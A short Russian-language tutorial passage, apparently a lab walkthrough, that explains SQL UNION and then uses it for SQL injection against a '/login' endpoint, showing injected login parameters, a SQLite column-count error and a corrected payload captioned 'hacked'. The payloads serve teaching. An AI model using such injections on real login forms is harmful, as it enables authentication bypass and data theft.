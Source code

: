 ### UNION

в `SQL` есть оператор `UNION`, который позволяет объединять запрос в один по строкам. Работает он так:

```sql
SELECT 1,2,3 UNION SELECT 3,2,1;
```

Выведет:

```sql
1,2,3
3,2,1
```

Давайте попробуем им воспользоваться:

```x
/login?login=whatthefoxsay' union select 'test', 'test&password=test
```

Получим:

```x
SQLITE_ERROR:
SELECTs to the left and right of UNION do not have the same number of result columns
```

ага, в данном ответе нам говорят что количество колонок не совпадает. Ок. Давайте это исправим:

```x
/login?login=whatthefoxsay' union select 'test', 'test', 'test&password=test
```

<figure style="text-aling: center;">
    <img src="./request-hacked.jpg" alt="hacked">
    <figcaption>hacked</figcaption>
</figure>
